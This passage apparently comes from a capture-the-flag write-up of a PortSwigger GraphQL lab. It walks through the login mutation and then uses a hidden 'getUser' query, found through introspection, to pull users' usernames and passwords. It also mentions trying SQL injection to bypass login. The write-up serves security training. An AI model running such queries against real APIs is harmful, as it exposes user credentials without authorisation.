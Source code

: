 ```js
    event.preventDefault();

    const formData = new FormData(formElement);
    const { username, password } = Object.fromEntries(formData.entries())

    const loginMutation = getLoginMutation(username, password);

    sendQuery(loginMutation, redirectOnSuccess(accountDetailsPath), handleErrors(displayErrorMessages), () => displayErrorMessages(UNEXPECTED_ERROR));
};
```

When the "Log in" button is clicked, it'll send a GraphQL mutation query `login`, with variable `username` and `password`. The result is expected to return field `token` and `success`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-2/images/Pasted%20image%2020230705163408.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-2/images/Pasted%20image%2020230705163419.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Testing-GraphQL-APIs/GraphQL-2/images/Pasted%20image%2020230705163427.png)

**Mutation query `login`:**
```graphql
mutation login($input: LoginInput!) {
    login(input: $input) {
        token
        success
    }
}
```

**Variable:**
```json
{
    "input": {
        "password": "bal", 
        "username": "anything"
    }
}
```

We could try to perform SQL injection to bypass the authentication.

**However, we actually found a "hidden" query in the introspection query `getUser(id: ID!)`!**

**With that said, we can try to retrieve some users' `username` and `password`!**
```graphql
query {
    getUser(id: 1) {
        id
        username
        password
    }
}
```
